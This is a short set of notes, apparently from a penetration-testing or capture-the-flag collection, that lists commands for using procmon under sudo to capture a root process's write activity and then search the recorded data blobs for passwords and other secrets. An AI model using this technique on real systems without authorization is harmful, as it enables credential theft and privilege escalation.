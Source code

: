 # Procmon Privilege Escalation

### Main usage: Read root processes that they may contain sensitive data like passwords, etc.

### STEPS:

 - ps aux | grep TARGET_SCRIPT.sh (Fetch the PID of the target process)

 - sudo /usr/bin/procmon -p PID -c output.db -e write (Write output in a .db file)

 - Transfer the file to our machine

 - sqlitebrowser output.db (Open the .db file with a db browser or similar)

 - Go to -> Browse Data -> Duration (Filter > 9000000 or similar)

 - Check the blobs 1 by 1. Here we can reveal potential sensitive data.
